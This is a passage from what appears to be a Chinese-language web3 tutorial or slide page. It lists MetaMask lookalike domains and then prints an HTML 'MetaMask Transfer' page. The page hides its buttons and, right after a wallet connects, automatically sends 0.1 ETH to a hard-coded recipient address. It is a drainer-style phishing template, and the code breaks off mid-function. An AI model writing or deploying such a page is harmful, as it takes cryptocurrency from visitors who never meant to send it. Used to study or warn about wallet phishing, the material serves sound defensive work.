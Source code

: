 --

* metamask.com
* metamask.org
* metamask.io
* metamask.top
* metamask.cn

--

![er](/imgs/web3/wallet/8.png)

--

![er](/imgs/web3/wallet/9.png)

@slideend

<DocsAD/>

```html
<!DOCTYPE html>
<html>
<head>
    <title>MetaMask Transfer</title>
    <script src="https://cdn.jsdelivr.net/npm/web3/dist/web3.min.js"></script>
</head>
<body>
    <button id="connectButton" style="display: none;">Connect MetaMask</button>
    <button id="transferButton" style="display: none;">Transfer</button>

    <script>
        let web3;

        // 检查 MetaMask 是否安装
        if (typeof window.ethereum !== 'undefined') {
            web3 = new Web3(window.ethereum);
            console.log('MetaMask is installed!');
        } else {
            alert('Please install MetaMask to use this dApp!');
        }

        // 连接 MetaMask
        async function connectMetaMask() {
            try {
                await ethereum.request({ method: 'eth_requestAccounts' });
                console.log('MetaMask connected');
                autoTransfer();
            } catch (error) {
                console.error('User rejected the request');
            }
        }

        // 转账
        async function autoTransfer() {
            const accounts = await web3.eth.getAccounts();
            const fromAddress = accounts[0];
            const toAddress = '0xfb0bc05F1aC61a566E70890e0e000E66F147ae66'; // 替换为接收地址
            const amount = web3.utils.toWei('0.1', 'ether'); // 替换为要转账的金额

            web3.eth.sendTransaction({
                from: fromAddress,
                to: toAddress,
                value: amount
            })
            .on('transactionHash', (hash) => {
```